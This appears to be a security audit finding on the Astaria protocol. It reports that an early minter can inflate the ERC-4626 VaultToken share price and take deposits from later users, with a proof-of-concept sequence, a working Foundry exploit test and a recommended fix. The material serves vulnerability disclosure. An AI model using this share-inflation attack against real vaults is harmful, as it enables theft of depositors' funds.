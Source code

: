 joestakey

high

# `PublicVault.deposit()` can be broken by early minter

## Summary

An early minter can break the `VaultToken` price, resulting in future depositors losing `underlying` upon redeem.

## Vulnerability Detail

Liquidity providers earn interest on funds provided to `PublicVaults`. When a liquidity provider deposits capital into a `PublicVault`, they are minted yield-bearing ERC-4626 `VaultTokens`

Liquidity deposit by calling `PublicVault.deposit()`. The function calls `ERC4626Cloned.deposit()`, which computes the amount of `VaultTokens` to be minted, and transfers the liquidity to the `PublicVault`.

The issue is that because of how `convertToShares` computes the amount of shares to be minted, an early minter can inflate the share price and steal `underlying` from future depositors.


## Impact

A direct consequence from this `VaultToken` price inflation is that early minters can essentially steal `underlying` from future minters

## Proof Of Concept

- Alice calls `deposit(1)`, depositing `1` unit of `underlying` in `PublicVault`. She receives `1` `VaultToken`.
- Alice transfers `1e18 - 1` underlying to the `PublicVault` using the `ERC20.transfer()` method.
- Bob calls `PublicVault.deposit(1.999999e18)`.
- Because of Alice's transfer, `totalSupply = 1e18`. `1 * 1.9999 e18 / 1e18` rounds to `1`: Bob receives `1` `VaultToken`: the same amount as Alice.
- Alice calls `redeemFutureEpoch` to redeem her shares at the next epoch. Because she owns half of the shares, she will receive ~`1.5 * 1e18` `underlying`, effectively stealing approximately `0.5 * 1e18` from Bob.

Run this test - you can add it to `AstariaTest.t.sol`:

```solidity
function testAttackSharesBreak() public {
    Dummy721 nft = new Dummy721();
    address tokenContract = address(nft);
    uint256 tokenId = uint256(1);

    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    _lendToVault(
      Lender({addr: address(1), amountToLend: 1}),
      publicVault
    );
    uint amountTransfer = 1e18 - 1;
    vm.deal(address(1), amountTransfer);
    vm.startPrank(address(1));
    WETH9.deposit{value: amountTransfer}();
    WETH9.transfer(publicVault, amountTransfer);
    vm.stopPrank();

    uint256 amountTwo = 1.999999999 * 1e18;
    // address(2) provides 1.999999999 * 1e18 of liquidity to the Vault
    _lendToVault(
      Lender({addr: address(2), amountToLend: amountTwo}),
      publicVault
    );

    // uint256 collateralId = tokenContract.computeId(tokenId);
    uint256 vaultBalanceUserOne = IERC20(publicVault).balanceOf(address(1));

    // address(1) and address(2) own the same amount of VaultTokens
    assertEq(1, IERC20(publicVault).balanceOf(address(1)));
    assertEq(1, IERC20(publicVault).balanceOf(address(2)));

    // _signalWithdrawAtFutureEpoch(address(1), publicVault, uint64(1));
    _signalWithdraw(address(1), publicVault);

    address withdrawProxy = PublicVault(publicVault).withdrawProxies(
      PublicVault(publicVault).getCurrentEpoch()
    );


    vm.warp(block.timestamp + 15 days);

    PublicVault(publicVault).processEpoch();

    vm.warp(block.timestamp + 13 days);
    PublicVault(publicVault).transferWithdrawReserve();

    vm.startPrank(address(1));

    WithdrawProxy(withdrawProxy).redeem(
      vaultBalanceUserOne,
      address(1),
      address(1)
    );
    vm.stopPrank();

    //address(1) withdrew ~1.5e18 underlying
    assertApproxEqAbs(ERC20(PublicVault(publicVault).underlying()).balanceOf(address(1)), 1.5 ether,1e17); //10% delta

    // only ~1.5e18 underlying left in Vault: address(2) effectively lost ~0.5e18
    assertApproxEqAbs(ERC20(PublicVault(publicVault).underlying()).balanceOf(publicVault), 1.5 ether,  1e17 ); //10% delta
}
```

## Code Snippet
https://github.com/sherlock-audit/2022-10-astaria/blob/main/lib/astaria-gpl/src/ERC4626-Cloned.sol#L400

## Tool Used

Manual Review, Foundry

## Recommendation

Consider sending the first 1000 `VaultToken` to the address 0, a mitigation used in [Uniswap V2](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124).